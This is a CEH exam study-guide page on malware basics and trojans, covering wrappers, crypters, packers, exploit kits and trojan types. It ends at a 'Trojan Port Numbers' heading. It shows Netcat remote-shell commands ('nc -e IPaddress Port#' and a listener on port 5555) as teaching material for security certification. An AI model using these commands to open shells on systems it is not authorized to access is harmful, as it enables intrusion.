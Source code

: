 ### [Table Of Contents](https://karsyboy.github.io/CEHv10StudyGuide/)

# Trojans and Other Attacks

### <u>Malware Basics</u>

- **Malware** - software designed to harm or secretly access a computer system without informed consent
- Most is downloaded from the Internet with or without the user's knowledge
- **Overt Channels** - legitimate communication channels used by programs
- **Covert Channels** - used to transport data in unintended ways
- **Wrappers** - programs that allow you to bind an executable to an innocent file
- **Crypters** - use a combination of encryption and code manipulation to render malware undetectable to security programs
- **Packers** - use compression to pack the executable which helps evage signature based detection
- **Exploit Kits** - help deliver exploits and payloads
  - Infinity
  - Bleeding Life
  - Crimepack
  - Blackhole Exploit Kit

### <u>Trojans</u>

- **Trojans** - software that appears to perform a desirable function but instead performs malicious activity
  - To hackers, it is a method to  gain and maintain access to a system
  - Trojans are means of delivery whereas a backdoor provides the open access
- **Types**
  - **Defacement trojan**
  - **Proxy server trojan**
  - **Botnet trojan**
    - Chewbacca
    - Skynet
  - **Remote access trojans**
    - RAT
    - MoSucker
    - Optix Pro
    - Blackhole
  - **E-banking trojans**
  	- Zeus
  	- Spyeye
  - **Command Shell Trojan** - Provides a backdoor to connect to through command-line access
    - Netcat
- **Covert Channel Tunneling Trojan** (CCTT) - a RAT trojan; creates data transfer channels in previously authorized data streams
- **Netcat**
  - "Swiss army knife" of tcp/ip hacking
  - Provides all sorts of control over a remote shell on a target
  - Connects via **nc -e IPaddress Port#**
  - From attack machine **nc -l -p 5555** opens a listening port on 5555
  - Can connect over TCP or UDP, from any port
  - Offers DNS forwarding, port mapping and forwarding and proxying
- **Trojan Port Numbers**
